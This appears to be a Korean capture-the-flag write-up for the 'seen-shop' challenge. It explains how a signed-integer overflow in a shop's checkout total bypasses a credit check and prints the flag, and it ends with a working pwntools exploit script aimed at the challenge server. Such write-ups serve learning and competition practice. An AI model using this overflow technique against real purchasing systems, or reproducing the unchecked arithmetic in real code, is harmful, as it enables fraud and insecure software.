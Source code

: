 # NOWRUZ 1404

# seen-shop

```c
void checkout(Seen seens[], int quantities[]) {
    int total = 0;
    puts("Your Basket:");
    for (int i = 0; i < NUM_SEENS; i++) {
        if (quantities[i] > 0) {
            printf("%s - %d item = %d Toman\n", seens[i].name, quantities[i], seens[i].price * quantities[i]);
            total += seens[i].price * quantities[i];
        }
    }

    printf("Total: %d\n",total);
    if(total > credit){
        puts("Not enough credit.");
        exit(0);
    }

    if(quantities[6] > 10){
        puts("oh... pole ke mirize...");
        system("cat /flag");
    }
    puts("Thank you ~~ Have a nice Nowruz!");
    exit(0);
}
```

`checkout` 함수를 호출했을 때, `seens[i].price * quantities[i]`가 `credit`보다 작고 `quantities[6]`이 10보다 크면 플래그를 출력해준다.

```c
void addToBasket(Seen seens[], int quantities[]) {
    int item, qty;
    displayMenu(seens);
    printf("Enter item number to add (1-7): ");
    scanf("%d", &item);
    if (item < 1 || item > NUM_SEENS) {
        puts("Invalid item.");
        return;
    }
    printf("Enter quantity: ");
    scanf("%d", &qty);
    if (qty < 1) {
        puts("Invalid quantity.");
        return;
    }
    quantities[item - 1] += qty;
    printf("Added %d %s(s) to your basket.\n", qty, seens[item - 1].name);
}
```

`quantities[6]`의 값은 `addToBasket` 함수에서 원하는 값으로 설정 가능하다.

```c
typedef struct {
    char name[20];
    int price;
} Seen;
int credit;

[...]

Seen seens[NUM_SEENS] = {
    {"Sabzeh", 30000},
    {"Senjed", 20000},
    {"Seer", 20000},
    {"Seeb", 10000},
    {"Samanu", 35000},
    {"Serkeh", 40000},
    {"Sekkeh", 80000000}
};

[...]

credit = 1000000;

```

`addToBasket` 함수에서 `quantities[6]`의 값을 임의로 설정할 수 있기에  `quantities[6]` 의 값을 10보다 크게 하는것은 문제가 되지 않지만 `seens[6].price(80000000) * quantities[6](> 10)` 

가 `credit(1000000)` 보다 작게 해야한다.

```c
void checkout(Seen seens[], int quantities[]) {
    int total = 0;
    puts("Your Basket:");
    for (int i = 0; i < NUM_SEENS; i++) {
        if (quantities[i] > 0) {
            printf("%s - %d item = %d Toman\n", seens[i].name, quantities[i], seens[i].price * quantities[i]);
            total += seens[i].price * quantities[i];
        }
    }
    
    [...]
```

`seens[6].price * quantities[6]` 의 결과가 담기는 변수 `total`은 `signed int`이기 때문에 만일 계산결과가 매우 크다면 `total` 변수의 부호비트가 바뀌며 음수가 될 것이다.

이를 통해 `quantities[6]`는 `10` 보다 크며 `seens[6].price * quantities[6]` 는 `1000000`보다 작은 음수가 되도록 할 수 있다.

```python
#!/usr/bin/env python3

from pwn import *

# Function Aliases
# sendlineafter
def sla(x, y): return io.sendlineafter(x, y)
# sendafter
def sa(x, y): return io.sendafter(x, y)
# send-line
def sl(x): return io.sendline(x)
# send
def s(x): return io.send(x)

# recv-until
def rvu(x): return io.recvuntil(x)
# recv
def rv(x): return io.recv(x)
# recv-line
def rvl(): return io.recvline()

# log info
def li(x): return log.info(x)
# log success
def ls(x): return log.success(x)
# log failure
def lf(x): return log.failure(x)

# Context Settings
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = [
    'tmux',
    'new-window',
    '-n', 'DEBUG-exploit'
]

# Bind Settings
bin_path = "./seen-shop"
e = ELF(bin_path)

# IO Settings
server_addr = "164.92.176.247"
server_port = 9000

if args['REMOTE']:
    io = remote(server_addr, server_port)
else:
    io = process([e.path], stdin=PTY)

# Main Code
def main():
    sla(b": ", b"1")
    sla(b": ", b"7")
    sla(b": ", b"100")

    sla(b": ", b"2")
    io.interactive()

if __name__ == "__main__":
    main()
```